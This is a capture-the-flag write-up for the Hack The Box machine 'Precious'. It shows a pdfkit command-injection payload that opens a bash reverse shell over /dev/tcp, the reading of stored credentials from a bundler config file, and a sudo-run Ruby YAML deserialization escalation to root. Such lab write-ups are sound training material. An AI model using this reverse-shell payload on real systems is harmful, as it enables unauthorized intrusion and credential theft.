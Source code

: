 ```yaml
---
title: "Hack The Box - Precious [Easy]"
category: ctf-writeup
layout: post
---
```


We begin with a simple web page that has an input, apparently this input turns a webpage to a PDF, I tried with hosting a page on my machine and tried to use it for the input. 

Then the website provided me with a PDF of the website that I've hosted, I've downloaded the PDF and used the `exiftool` to figure out what was generating this PDF file, from there I saw that it was generated by `pdfkit v0.8.6`. 

I went to google to check if there are any exploits and I found this:
- https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

This apparently gives me a command injection exploit, and I tried the following payload:

```
http://myip:8080/?name=#{'%20`bash -c "bash -i >& /dev/tcp/myip/myport 0>&1"`'}
```

# Flag 1

This gave me a reverse shell for the user `ruby`, from this point I've run `linpeas.sh` to check how can I gain access to the user `henry` and I saw the file `/home/ruby/.bundle/config` and I went to check it.

```
$ cat /home/ruby/.bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:<passwod>"

```

I gained access to the user with an ssh login to the `hnery` user and gained the `user.txt` flag located in the home directory.

# Flag 2

```sh
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

This gives the clue of how to get the next flag, let's look what this file contains:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

We have `YAML.load(File.read("dependencies.yml"))` which hints that we need to use the `dependancies.yml` file to gain root. 

Using google again to see how can we do that, this took me some time, but figuring out the attack surface is what is this all about. The attack surface is being the YAML loader, so I've tried to look for exploits there, and I found this:
- https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/

I executed the `/usr/bin/ruby /opt/update_dependencies.rb` command with sudo and then using the `bash -p` I gained the root access. 
